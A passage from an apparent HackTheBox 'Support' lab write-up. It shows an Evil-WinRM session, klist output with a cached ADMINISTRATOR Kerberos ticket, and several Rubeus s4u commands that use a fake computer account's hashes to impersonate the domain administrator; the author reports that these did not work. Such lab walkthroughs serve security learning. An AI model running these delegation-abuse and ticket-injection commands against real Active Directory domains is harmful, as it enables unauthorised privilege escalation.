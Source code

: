 Even though we got the ticket, I did not impersonate the ADMINISTRATOR since I got permission denied trying to list C$ share in the DC:

```bash
*Evil-WinRM* PS C:\Users\support\Desktop> ls \\DC.SUPPORT.HTB\c$
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_10_rip.png" width="90%"/>
</p>


And we have the ticket on our machine:


```bash
*Evil-WinRM* PS C:\Users\support\Desktop> klist

Current LogonId is 0:0xebabb4

Cached Tickets: (1)

#0>     Client: ADMINISTRATOR @ SUPPORT.HTB
        Server: cifs/DC.SUPPORT.HTB @ SUPPORT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 8/5/2022 1:37:20 (local)
        End Time:   8/5/2022 11:37:20 (local)
        Renew Time: 8/12/2022 1:37:20 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_11_ticket.png" width="90%"/>
</p>

Tried many different configurations for Rubeus but didn't work at the end.

```bash
.\Rubeus.exe s4u /user:FAKE01$ /domain:SUPPORT.HTB /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:ADMINISTRATOR /msdsspn:http/DC /altservice:cifs /ptt

.\Rubeus.exe s4u /user:FAKE01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:ADMINISTRATOR /msdsspn:cifs/DC.SUPPORT.HTB /ptt


.\Rubeus.exe hash /password:123456 /user:FAKE01 /domain:SUPPORT.HTB


.\Rubeus.exe s4u /user:fake01$ /aes256:37CD1332C1F8DC0C4AA0B738CC971DEBD8D66AED50AF2AF2EC63B7459344B834 /aes128:3E1A2E5F7675F6BA5C21FDEABFD92B93 /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:ADMINISTRATOR /msdsspn:cifs/DC.SUPPORT.HTB /domain:SUPPORT.HTB /ptt


.\Rubeus.exe s4u /user:fake01$ /aes128:3E1A2E5F7675F6BA5C21FDEABFD92B93 /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:ADMINISTRATOR /msdsspn:cifs/dc.support.htb /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:support.htb /ptt
```
